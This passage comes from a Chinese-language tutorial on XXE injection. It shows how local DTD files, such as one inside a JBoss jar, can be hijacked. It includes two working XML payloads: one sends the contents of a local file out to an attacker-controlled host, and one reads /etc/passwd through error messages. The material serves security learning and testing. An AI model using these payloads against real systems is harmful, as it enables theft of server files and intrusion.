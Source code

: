 

> 这一部构造参数实体 print，再执行得到send命名实体是必要的。命名实体内部不会解析参数实体



![](img/2.png)

但是有个问题就是如果是多行的文件就无法读取，目前暂时不清楚解决方法

### 结合本地dtd文件

上面那个你会想说能不能只发送远程请求不加载dtd？答案是可以的，具体原理可以参考[exploiting-xxe-with-local-dtd-files](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)，之所以需要引入外部实体，是因为内部DTD不允许我们在实体中包含一个实体



```xml
<!DOCTYPE root [
        <!ENTITY % local_dtd SYSTEM "jar:file:///tmp/jboss-xacml-2.0.8.Final.jar!/schema/xmlschema/XMLSchema.dtd">
        <!ENTITY % xs-datatypes ' <!ENTITY &#x25; file SYSTEM "file:///tmp/1.txt">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;http://vp s:port/&#x25;file;&#x27;>">
&#x25;eval;&#x25;error;'>

        %local_dtd;
        ]>
<root>
    <username>test</username>
</root>
```

![](img/4.png)



但是这又有一个问题，问题但关键在于如何找到对方服务器上可注入的dtd，2019年7月，有国外大佬已经完美解决了这个问题，[点我](https://blog.h3xstream.com/2019/07/automating-local-dtd-discovery-for-xxe.html)并提供了工具[dtd-finder](https://github.com/GoSecure/dtd-finder)，工具中具有已知漏洞的dtd列表文件

在测试时只需要遍历存在已知漏洞的dtd文件，查看是否存在，存在的话照着参数利用即可。



当然如果服务器能抛出异常信息的话我们能多行语句更便捷读取文件

```xml
<!DOCTYPE root [
        <!ENTITY % local_dtd SYSTEM "jar:file:///tmp/jboss-xacml-2.0.8.Final.jar!/schema/xmlschema/XMLSchema.dtd">
        <!ENTITY % xs-datatypes ' <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///&#x25;file;&#x27;>">
&#x25;eval;&#x25;error;'>

        %local_dtd;
        ]>
<root>
    <username>test</username>
</root>
```